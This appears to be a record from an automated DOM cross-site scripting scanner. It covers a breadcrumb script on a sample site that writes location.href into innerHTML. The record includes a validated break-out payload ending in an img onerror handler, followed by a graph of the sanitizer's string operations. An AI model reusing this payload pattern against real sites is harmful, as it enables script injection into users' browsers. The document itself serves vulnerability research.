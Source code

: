 // Finding: 96dbb33c-ada7-449d-9631-858fd09d4051
// Finding.url: https://www.example125.com/programs/biodiversity/elements_of_biodiversity/extinction_crisis/index.html##</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('c411240504784798aed64110d29cf936')><!--/*
// Finding.parentloc: https://www.example125.com/programs/biodiversity/elements_of_biodiversity/extinction_crisis/index.html##</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('c411240504784798aed64110d29cf936')><!--/*
// Finding.domain: www.example125.com
// Finding.base_domain: example125.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 1
// Sanitizer.name: breadcrumbs2
// Sanitizer.location: https://www.example125.com/assets/js/crumb.js - breadcrumbs2:38:2
// Finding.begin: 859
// Finding.end: 937
// Finding.original_uuid: a6e8cae3-bc36-4905-b562-02a62e49bb5a
// Finding.TwentyFiveMillionFlowsId: -2080421339
// Finding.script: https://code.example167.com/jquery-3.3.1.min.js
// Finding.line: 2
// Exploit.uuid: c4112405-0478-4798-aed6-4110d29cf936
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: text
// Exploit.content: s
// Exploit.quote_type: None
// Exploit.tag: None
// Exploit.break_out: #</iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 36
// Exploit.end_taint_url: 44
// Exploit.replace_begin_url: 111
// Exploit.replace_end_url: 111
// Exploit.replace_begin_param: 75
// Exploit.replace_end_param: 75
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: true
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 1341693464
// DepGraph.sanitizer_hash: -1724858970
// Removed LR concats 
// Removed LR concats 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="substr"];
n2 [shape=box, label="Var: x"];
n3 [shape=box, label="Lit: 8"];
n4 [shape=box, label="Lit: 232"];
n5 [shape=ellipse, label="substr"];
n6 [shape=box, label="Var: x"];
n7 [shape=box, label="Lit: 28"];
n8 [shape=box, label="Lit: 204"];
n9 [shape=ellipse, label="substr"];
n10 [shape=box, label="Var: x"];
n11 [shape=box, label="Lit: 9"];
n12 [shape=box, label="Lit: 195"];
n13 [shape=ellipse, label="substr"];
n14 [shape=box, label="Var: x"];
n15 [shape=box, label="Lit: 13"];
n16 [shape=box, label="Lit: 182"];
n17 [shape=ellipse, label="substr"];
n18 [shape=box, label="Var: x"];
n19 [shape=box, label="Lit: 25"];
n20 [shape=box, label="Lit: 157"];
n21 [shape=ellipse, label="substr"];
n22 [shape=box, label="Var: x"];
n23 [shape=box, label="Lit: 18"];
n24 [shape=box, label="Lit: 139"];
n25 [shape=ellipse, label="substr"];
n26 [shape=box, label="Var: x"];
n27 [shape=box, label="Lit: 14"];
n28 [shape=box, label="Lit: 125"];
n29 [shape=ellipse, label="substr"];
n30 [shape=box, label="Var: x"];
n31 [shape=box, label="Lit: 9"];
n32 [shape=box, label="Lit: 116"];
n33 [shape=ellipse, label="substr"];
n34 [shape=box, label="Var: x"];
n35 [shape=box, label="Lit: 8"];
n36 [shape=box, label="Lit: 108"];
n37 [shape=ellipse, label="substr"];
n38 [shape=box, label="Var: x"];
n39 [shape=box, label="Lit: 9"];
n40 [shape=box, label="Lit: 99"];
n41 [shape=ellipse, label="substr"];
n42 [shape=box, label="Var: x"];
n43 [shape=box, label="Lit: 9"];
n44 [shape=box, label="Lit: 90"];
n45 [shape=ellipse, label="substr"];
n46 [shape=box, label="Var: x"];
n47 [shape=box, label="Lit: 8"];
n48 [shape=box, label="Lit: 82"];
n49 [shape=ellipse, label="substr"];
n50 [shape=box, label="Var: x"];
n51 [shape=box, label="Lit: 0"];
n52 [shape=box, label="Lit: 80"];
n53 [shape=ellipse, label="."];
n54 [shape=box, label="Lit:  "];
n55 [shape=ellipse, label="."];
n56 [shape=box, label="Lit:  "];
n57 [shape=ellipse, label="preg_replace"];
n58 [shape=box, label="RegExp: /-|_/"];
n59 [shape=box, label="Lit:  "];
n60 [shape=box, label="Var: x"];
n61 [shape=ellipse, label="."];
n62 [shape=box, label="Lit: </a> &nbsp;>&nbsp; "];
n63 [shape=ellipse, label="."];
n64 [shape=box, label="Lit: Halting the Extinction Crisis"];
n65 [shape=box, label="Var: x"];
n66 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n1 -> n3;
n1 -> n4;
n6 -> n1;
n5 -> n6;
n5 -> n7;
n5 -> n8;
n10 -> n5;
n9 -> n10;
n9 -> n11;
n9 -> n12;
n14 -> n9;
n13 -> n14;
n13 -> n15;
n13 -> n16;
n18 -> n13;
n17 -> n18;
n17 -> n19;
n17 -> n20;
n22 -> n17;
n21 -> n22;
n21 -> n23;
n21 -> n24;
n26 -> n21;
n25 -> n26;
n25 -> n27;
n25 -> n28;
n30 -> n25;
n29 -> n30;
n29 -> n31;
n29 -> n32;
n34 -> n29;
n33 -> n34;
n33 -> n35;
n33 -> n36;
n38 -> n33;
n37 -> n38;
n37 -> n39;
n37 -> n40;
n42 -> n37;
n41 -> n42;
n41 -> n43;
n41 -> n44;
n46 -> n41;
n45 -> n46;
n45 -> n47;
n45 -> n48;
n50 -> n45;
n49 -> n50;
n49 -> n51;
n49 -> n52;
n53 -> n49;
n53 -> n54;
n55 -> n53;
n55 -> n56;
n60 -> n55;
n57 -> n58;
n57 -> n59;
n57 -> n60;
n61 -> n57;
n61 -> n62;
n63 -> n61;
n63 -> n64;
n65 -> n63;
n66 -> n65;
}